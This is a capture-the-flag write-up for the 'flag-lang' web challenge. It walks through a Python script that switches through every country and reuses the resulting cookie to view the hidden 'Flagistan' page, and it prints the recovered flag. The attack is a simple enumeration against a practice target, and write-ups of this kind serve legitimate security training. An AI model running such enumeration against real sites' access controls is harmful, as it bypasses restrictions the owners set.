 # flag-lang

## Overview:

Category: Web

## Description

Do you speak the language of the flags?

flaglang.chall.lac.tf

## Approach

Let's take a gander at the website. 

First thing we see when we visit the website is two flags being displayed with drop down menus.

Taking a look inside the drop down menus we see a list of countries with a odd name at the top `Flagistan`.

Which, I hate to spoil for you, is not a real country. And judging by the name this has something to do with our flag.

Messing around a little bit I came across this:

![Embargo Message](pictures/embargo.png)

And from this I took a shot in the dark and thought, we'll maybe one of these countries doesn't have an embargo.

## Attack

Now to test every country -> Flagistan, i'm going to need a few things.

First order of business was getting a list of the countries.

Opening the source code for the site, I found this interesting JSON data under the name countries:

![Country List](pictures/countries.png)

Using a little bit of javascript in the console I was able to extract a list:

![Javascript](pictures/javascript.png)

Then using some python I cleaned it up piped the output to this [file](countries.txt).
```c
import json

with open('countries.txt') as file:
    
    countries = json.load(file)
    format = "\n".join(countries)
    print(format)
```

Boom, now we have a file that has each country we need to try.

Now before we write our python script to test each country lets first view what the requests are looking like.

Here is a pair of requests that relate to switching what country you are, and what country you are viewing.

![Switch Country](pictures/switch-to.png)

Something very important to notice here is that when you are switching to another country, a cookie is being set.

This is important because when you query to view flagistan as a country, you need that cookie in-order to tell what country you are.

![View Flagistan](pictures/view-flagistan.png)

Knowing this let's construct a python script that will allows us to view flagistan as every country and see if there are any that don't have the "embargo" and rather the flag.

```c
import requests

url = "https://flaglang.chall.lac.tf"

with open("countries.txt", "r") as countries:
    for country in countries:
    
        #switching to country, [:-1] to get rid of "\n"
        print(url + "/switch?to=" + country[:-1])
        response = requests.get(url + "/switch?to=" + country[:-1])

        #if successful view as flagistan
        if(response.status_code == 200):
            print(url + "/view?country=Flagistan")
            #cookies are needed to know what country we are viewing as
            view_flagistan = requests.get(url + "/view?country=Flagistan", cookies=response.cookies)
            if "lactf" in view_flagistan.text:
                print(view_flagistan.text)
                exit()
```

Running the script:
```c
$ python script.py    
https://flaglang.chall.lac.tf/switch?to=Flagistan
https://flaglang.chall.lac.tf/switch?to=Afghanistan
https://flaglang.chall.lac.tf/view?country=Flagistan
{"msg":"lactf{n0rw3g7an_y4m7_f4ns_7n_sh4mbl3s}","iso":"FL"}
```

Now unfortunately the challenge had been constructed incorrectly and ended up leaking the flag unintendedly.

Either way, this solution was intended to view `Flagistan` as `Norway`, in which we were supposed to recieve the flag then.

## Flag

lactf{n0rw3g7an_y4m7_f4ns_7n_sh4mbl3s}
